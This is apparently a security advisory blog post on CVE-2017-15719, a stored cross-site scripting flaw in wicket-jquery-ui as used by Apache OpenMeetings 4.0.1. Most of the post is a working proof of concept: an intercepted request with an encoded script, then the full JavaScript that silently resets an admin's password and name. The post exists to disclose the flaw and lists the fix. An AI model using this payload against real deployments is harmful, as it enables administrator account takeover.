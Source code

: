 ```yaml
---

layout: post
title: CVE-2017-15719 Wicket jQuery UI XSS in WYSIWYG editor
tagline: Apache OpenMeetings 4.0.1 Vulnerability Report
tag: advisory
excerpt_separator: <!--more-->

---
```


It was identified that one of the components of Apache OpenMeetings v 4.0.1 is vulnerable to [Persistent Cross Site Scripting](https%3A%2F%2Fwww.owasp.org%2Findex.php%2FCross-site_Scripting_%28XSS%29) vulnerability. An attacker can exploit these vulnerabilities to hijack admin user's browser along with the data stored in it.  
<!--more-->

### Affected Component: wicket-jquery-ui

### Affected Versions: <= 6.28.0, <= 7.9.1, <= 8.0.0-M8

### Test Configuration:

Following is needed in order to reproduce this issue:

* Access to two valid user accounts. (`admin` and `user1` in this example)
* A web browser. (Mozilla Firefox in this example)
* An HTTP intercepting proxy (Burp Suite Professional in this example)


### Proof of Concept:

1. Login to `user1` account and navigate to mailbox by clicking on `Contacts and messages`  button as shown.

   ![Mailbox](/assets/images/apache_openmeetings/1.png)

2. Create a new email to `admin` user with following contents and click on send.

   ![](/assets/images/apache_openmeetings/2.png)

3. Intercept the request and replace the `message:textarea` parameter value as shown and forward the request.  

   ```markdown
   POST /openmeetings/?1-1.0-main~container-main-newMessageDialog HTTP/1.1
   Host: localhost:5080
   User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:48.0) Gecko/20100101 Firefox/48.0
   Accept: application/xml, text/xml, */*; q=0.01
   Accept-Language: en-US,en;q=0.5
   Accept-Encoding: gzip, deflate
   Content-Type: application/x-www-form-urlencoded; charset=UTF-8
   Wicket-Ajax: true
   Wicket-Ajax-BaseURL: .
   Wicket-FocusedElementId: btnad
   X-Requested-With: XMLHttpRequest
   Referer: http://localhost:5080/openmeetings/
   Content-Length: 5854
   Cookie: wicketDebugBarState=collapsed; JSESSIONID=EBF252840768E072D61FB49991CEC0B6
   Connection: close

   to=1&subject=Hello&message%3Atextarea=`This%20mail%20was%20sent%20accidently%20to%20you%2C%20please%20ignore%20this.%0A%3Cscript%3E%0A%20%20%20%20%20%20function%20x%28%29%0A%20%20%20%20%20%20%7B%0A%09%09var%20u%3B%0A%09%09var%20uid%3B%0A%09%09var%20data%20%3D%20%22%22%3B%0A%09%09%09for%20%28var%20i%3D0%3B%20i%20%3C%20document.scripts.length%3B%20i%20%2b%2b%29%7B%0A%09%09%09%09data%20%2b%3D%20document.scripts%5Bi%5D.text%3B%0A%09%09%09%7D%0A%09%09%09var%20m%20%3D%20data.match%28%2f%5E.%2a%3F%5C%28%5C%7B%5C%22u%5C%22%5C%3A%5C%22%5C.%5C%2f%28.%2a%3F%29%5C%22%5C%7D%5C%29%5C%3B%5C%3B%24%2fim%29%3B%0A%09%09%09u%20%3D%20m%5B1%5D%3B%0A%09%09%09%0A%09%09%09for%20%28var%20i%3D0%3Bi%20%3C%20document.getElementsByClassName%28%22sub%20ui-menu-item%22%29.length%3Bi%2b%2b%29%7B%0A%09%09%09%09if%20%28document.getElementsByClassName%28%22sub%20ui-menu-item%22%29%5Bi%5D.title%20%3D%3D%20%22Manage%20users%20and%20rights%22%29%7B%0A%09%09%09%09%09uid%20%3D%20document.getElementsByClassName%28%22sub%20ui-menu-item%22%29%5Bi%5D.id%3B%0A%09%09%09%09%09break%3B%0A%09%09%09%09%7D%0A%09%09%09%7D%0A%09%09%09y1%28u%2Cuid%29%3B%0A%09%09%7D%0A%09%09%0A%09function%20y1%28u%2Cuid%29%7B%0A%09%09var%20ul%20%3D%20%22http%3A%2f%2flocalhost%3A5080%2fopenmeetings%2f%22%2bu%2b%22main%7Econtainer-main-topControls-menu-menu%26hash%3D%22%2buid%2b%22%26_%3D%22%3B%0A%09%09var%20b%20%3D%20new%20XMLHttpRequest%28%29%3B%0A%09%09b.open%28%22GET%22%2Cul%2Ctrue%29%3B%0A%09%09b.setRequestHeader%28%22Accept%22%2C%20%22application%5C%2fxml%2C%20text%5C%2fxml%2C%20%2a%5C%2f%2a%3B%20q%3D0.01%22%29%3B%0A%20%20%20%20%20%20%20%20b.setRequestHeader%28%22Accept-Language%22%2C%20%22en-US%2Cen%3Bq%3D0.5%22%29%3B%0A%20%20%20%20%20%20%20%20b.setRequestHeader%28%22Wicket-Ajax%22%2C%22true%22%29%3B%0A%09%09b.setRequestHeader%28%22Wicket-Ajax-BaseURL%22%2C%22.%22%29%3B%0A%09%09b.setRequestHeader%28%22X-Requested-With%22%2C%22XMLHttpRequest%22%29%3B%0A%09%09b.responseType%20%3D%20%22document%22%3B%0A%09%09b.overrideMimeType%28%27text%2fxml%27%29%3B%0A%09%09b.onload%20%3D%20function%28%29%7B%0A%09%09%09y2%28u%29%3B%0A%09%09%7D%0A%09%09b.send%28%29%3B%09%0A%09%7D%0A%09%0A%09function%20y2%28u%29%7B%0A%09%09var%20ul%20%3D%20%22http%3A%5C%2f%5C%2flocalhost%3A5080%5C%2fopenmeetings%5C%2f%22%2bu%2b%22main%7Econtainer-main-contents-child-listContainer-userList-1%26_%3D1513604035452%22%3B%0A%09%09var%20xhr%20%3D%20new%20XMLHttpRequest%28%29%3B%0A%09%09xhr.open%28%22GET%22%2Cul%2Ctrue%29%3B%0A%09%09xhr.setRequestHeader%28%22Accept%22%2C%20%22application%5C%2fxml%2C%20text%5C%2fxml%2C%20%2a%5C%2f%2a%3B%20q%3D0.01%22%29%3B%0A%20%20%20%20%20%20%20%20xhr.setRequestHeader%28%22Accept-Language%22%2C%20%22en-US%2Cen%3Bq%3D0.5%22%29%3B%0A%20%20%20%20%20%20%20%20xhr.setRequestHeader%28%22Wicket-Ajax%22%2C%22true%22%29%3B%0A%09%09xhr.setRequestHeader%28%22Wicket-Ajax-BaseURL%22%2C%22.%22%29%3B%0A%09%09xhr.setRequestHeader%28%22X-Requested-With%22%2C%22XMLHttpRequest%22%29%3B%0A%09%09xhr.overrideMimeType%28%27text%2fxml%27%29%3B%0A%09%09xhr.onload%20%3D%20function%28%29%20%7B%0A%09%09%09var%20t%20%3D%20this.responseXML.documentElement.getElementsByTagName%28%27component%27%29%5B0%5D.textContent%3B%0A%09%09%09var%20d%20%3D%20new%20DOMParser%28%29.parseFromString%28t%2C%22text%2fxml%22%29%3B%0A%09%09%09var%20r%20%3D%20d.getElementsByName%28%27comunity%3Acommunity_settings%27%29%5B1%5D.getAttribute%28%27value%27%29%3B%0A%09%09%09z%28u%2Cr%29%3B%0A%09%09%7D%0A%09%09xhr.responseType%20%3D%20%22document%22%3B%0A%09%09xhr.send%28%29%3B%0A%09%7D%0A%09%0A%09function%20z%28u%2Cr%29%0A%20%20%20%20%20%20%7B%0A%20%20%20%20%20%20%20%20var%20xhr%20%3D%20new%20XMLHttpRequest%28%29%3B%0A%20%20%20%20%20%20%20%20xhr.open%28%22POST%22%2C%20%22http%3A%5C%2f%5C%2flocalhost%3A5080%5C%2fopenmeetings%5C%2f%22%2bu%2b%22main%7Econtainer-main-contents-child-form-buttons-ajax%7Esave%7Ebutton%22%2C%20true%29%3B%0A%20%20%20%20%20%20%20%20xhr.setRequestHeader%28%22Accept%22%2C%20%22application%5C%2fxml%2C%20text%5C%2fxml%2C%20%2a%5C%2f%2a%3B%20q%3D0.01%22%29%3B%0A%20%20%20%20%20%20%20%20xhr.setRequestHeader%28%22Accept-Language%22%2C%20%22en-US%2Cen%3Bq%3D0.5%22%29%3B%0A%20%20%20%20%20%20%20%20xhr.setRequestHeader%28%22Content-Type%22%2C%20%22application%5C%2fx-www-form-urlencoded%3B%20charset%3DUTF-8%22%29%3B%0A%20%20%20%20%20%20%20%20xhr.setRequestHeader%28%22Wicket-Ajax%22%2C%22true%22%29%3B%0A%09%09xhr.setRequestHeader%28%22Wicket-Ajax-BaseURL%22%2C%22.%22%29%3B%0A%09%09xhr.setRequestHeader%28%22X-Requested-With%22%2C%22XMLHttpRequest%22%29%3B%0A%20%20%20%20%20%20%20%20xhr.withCredentials%20%3D%20true%3B%0A%20%20%20%20%20%20%20%20var%20body%20%3D%20%22login%3Dadmin%26password%3DPass@123%26general%253Aaddress.email%3Dadmin%2540localhost.com%26general%253Asalutation%3Dmr%26general%253Afirstname%3Dadminhijacked%26general%253Alastname%3Dadminhijacked%26general%253AtimeZoneId%3D281%26general%253AlanguageId%3D1%26general%253Aaddress.phone%3D%26general%253Aage%3D27%252F11%252F17%26general%253Aaddress.street%3D%26general%253Aaddress.additionalname%3D%26general%253Aaddress.zip%3D%26general%253Aaddress.town%3D%26general%253Aaddress.country%3DIN%26general%253Aaddress.comment%3D%26general%253AgroupUsers%3D1%26type%3D0%26rights%3DRoom%26rights%3DSoap%26rights%3DDashboard%26rights%3DAdmin%26rights%3DLogin%26comunity%253Acommunity_settings%3D%22%2br%2b%22%26comunity%253AuserOffers%3D%26comunity%253AuserSearchs%3D%26buttons%253Aajax-save-button%3D1%22%3B%0A%20%20%20%20%20%20%20%20var%20aBody%20%3D%20new%20Uint8Array%28body.length%29%3B%0A%20%20%20%20%20%20%20%20for%20%28var%20i%20%3D%200%3B%20i%20%3C%20aBody.length%3B%20i%2b%2b%29%0A%20%20%20%20%20%20%20%20%20%20aBody%5Bi%5D%20%3D%20body.charCodeAt%28i%29%3B%20%0A%20%20%20%20%20%20%20%20xhr.send%28new%20Blob%28%5BaBody%5D%29%29%3B%0A%20%20%20%20%20%20%7D%09%09%0A%20%20%20%20%20%20x%28%29%3B%0A%3C%2fscript%3E`
   ```

4. URL encoded payload shown in above request when executed will send a sequence of requests to change `admin` user's `firstname` ,`lastname` and `password`.

   *Note: For working of the exploit code shown below, **hostname** needs to updated accordingly.*

   {% highlight html %}
// Fetch user uid values from current DOM

<script>
function x()
     {
    var u;
    var uid;
    var data = "";
      for (var i=0; i < document.scripts.length; i ++){
        data += document.scripts[i].text;
      }
      var m = data.match(/^.*?\(\{\"u\"\:\"\.\/(.*?)\"\}\)\;\;$/im);
      u = m[1];

      for (var i=0;i < document.getElementsByClassName("sub ui-menu-item").length;i++){
        if (document.getElementsByClassName("sub ui-menu-item")[i].title == "Manage users and rights"){
          uid = document.getElementsByClassName("sub ui-menu-item")[i].id;
          break;
        }
      }
      y1(u,uid);
    }

// mandatory request to fulfill entire requests chain

function y1(u,uid){
  var ul = "http://localhost:5080/openmeetings/"+u+"main~container-main-topControls-menu-menu&hash="+uid+"&_=";
  var b = new XMLHttpRequest();
  b.open("GET",ul,true);
  b.setRequestHeader("Accept", "application\/xml, text\/xml, *\/*; q=0.01");
     b.setRequestHeader("Accept-Language", "en-US,en;q=0.5");
     b.setRequestHeader("Wicket-Ajax","true");
  b.setRequestHeader("Wicket-Ajax-BaseURL",".");
  b.setRequestHeader("X-Requested-With","XMLHttpRequest");
  b.responseType = "document";
  b.overrideMimeType('text/xml');
  b.onload = function(){
    y2(u);
  }
  b.send();
}

// Get community_settings value

  function y2(u){
    var ul = "http:\/\/localhost:5080\/openmeetings\/"+u+"main~container-main-contents-child-listContainer-userList-1&_=1513604035452";
    var xhr = new XMLHttpRequest();
    xhr.open("GET",ul,true);
    xhr.setRequestHeader("Accept", "application\/xml, text\/xml, *\/*; q=0.01");
       xhr.setRequestHeader("Accept-Language", "en-US,en;q=0.5");
       xhr.setRequestHeader("Wicket-Ajax","true");
    xhr.setRequestHeader("Wicket-Ajax-BaseURL",".");
    xhr.setRequestHeader("X-Requested-With","XMLHttpRequest");
    xhr.overrideMimeType('text/xml');
    xhr.onload = function() {
      var t = this.responseXML.documentElement.getElementsByTagName('component')[0].textContent;
      var d = new DOMParser().parseFromString(t,"text/xml");
      var r = d.getElementsByName('comunity:community_settings')[1].getAttribute('value');
      z(u,r);
    }
    xhr.responseType = "document";
    xhr.send();
  }

// Final password change request

  function z(u,r)
     {
       var xhr = new XMLHttpRequest();
       xhr.open("POST", "http:\/\/localhost:5080\/openmeetings\/"+u+"main~container-main-contents-child-form-buttons-ajax~save~button", true);
       xhr.setRequestHeader("Accept", "application\/xml, text\/xml, *\/*; q=0.01");
       xhr.setRequestHeader("Accept-Language", "en-US,en;q=0.5");
       xhr.setRequestHeader("Content-Type", "application\/x-www-form-urlencoded; charset=UTF-8");
       xhr.setRequestHeader("Wicket-Ajax","true");
    xhr.setRequestHeader("Wicket-Ajax-BaseURL",".");
    xhr.setRequestHeader("X-Requested-With","XMLHttpRequest");
       xhr.withCredentials = true;
       var body = "login=admin&password=Pass@123&general%3Aaddress.email=admin%40localhost.com&general%3Asalutation=mr&general%3Afirstname=adminhijacked&general%3Alastname=adminhijacked&general%3AtimeZoneId=281&general%3AlanguageId=1&general%3Aaddress.phone=&general%3Aage=27%2F11%2F17&general%3Aaddress.street=&general%3Aaddress.additionalname=&general%3Aaddress.zip=&general%3Aaddress.town=&general%3Aaddress.country=IN&general%3Aaddress.comment=&general%3AgroupUsers=1&type=0&rights=Room&rights=Soap&rights=Dashboard&rights=Admin&rights=Login&comunity%3Acommunity_settings="+r+"&comunity%3AuserOffers=&comunity%3AuserSearchs=&buttons%3Aajax-save-button=1";
       var aBody = new Uint8Array(body.length);
       for (var i = 0; i < aBody.length; i++)
         aBody[i] = body.charCodeAt(i);
       xhr.send(new Blob([aBody]));
     }    
     x();
</script>
{% endhighlight %}

   ​

5. Login to `admin` user account in a private browser window and navigate to mailbox by following `step1`.

6. Open the email sent by `user1` and observe that the application sends a sequence of XHR requests while executing our *XSS* payload.

  ![](/assets/images/apache_openmeetings/4.png)

  ![](/assets/images/apache_openmeetings/6.png)

7. Navigate to `Profile` settings of `admin` user and observe that first and last name has changed successfully as defined in the exploit code shown in `Step 4`.

   ![](/assets/images/apache_openmeetings/5.png)

8. We can now login to admin account with password `Pass@123` as defined in exploit.

   ![](/assets/images/apache_openmeetings/7.png)

   ![](/assets/images/apache_openmeetings/8.png)


### Remediation:

It is recommended to validate user input and implement  [Context Specific Filtering](https://www.owasp.org/index.php/XSS_%28Cross_Site_Scripting%29_Prevention_Cheat_Sheet) in application response.


### Vendor Patches:

This issue was fixed in **wicket-jquery-ui** versions **6.28.1**, **7.9.2** and **8.0.0-M8.1**. All Users are recommended to upgrade to [Apache OpenMeetings 4.0.2](https://openmeetings.apache.org/downloads.html).
